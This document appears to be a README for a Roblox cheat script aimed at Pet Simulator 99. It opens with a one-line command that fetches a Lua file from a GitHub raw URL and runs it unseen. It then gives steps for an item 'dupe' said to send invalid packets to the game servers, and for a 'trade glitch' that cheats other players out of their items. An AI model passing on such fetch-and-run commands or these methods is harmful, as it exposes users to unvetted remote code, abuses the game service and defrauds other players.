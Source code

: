 # Stuff you need
## SCRIPT
```
loadstring(game:HttpGet('https://raw.githubusercontent.com/PS99BYE/thing/main/petsimlag.lua'))()
```
## Executer I use
[Arceus X Discord](https://discord.gg/arceus)
[Emulator I use, MEMU](https://www.memuplay.com/)
# Tutorial for Dupe & Trade Glitch
## How does this work?
This script works by sending invalid packets to the Pet Simulator 99 servers, causing them to not be able to store new data. Anything you do from this point on can and will be reverted.
### Dupe
What you need
- An alt
- Another method of joining the game
- 10k+ gems + stuff you want to dupe

This method utilizes the mailbox and the script.

!!!EXECUTE THE SCRIPT WHEN YOU JOIN!!!

Simply send any item you want to dupe to your alt account (AFTER EXECUTING SCRIPT)

When you leave and rejoin, your items will still be there, however they will still be sent to your alt.

!!DO NOT!!
Join the same game as your alt.

This will delete the duped item. You must sell this item before joining a server with your main, then you can transfer diamonds/ other goods you got.

### Trade Glitch

Don't have any good items? Well this is the glitch for you

What you need

- An item with ANY value at all

This method utilizes other people.

!!!EXECUTE THE SCRIPT WHEN YOU JOIN!!!

Give them a great offer that they can't refuse, accept the trade, but quickly unaccept. Take away all the items you put in.

On their screen all the items will still be there, however you will not lose any items, but gain theirs.

REPEAT FOR INFINITE WEALTH

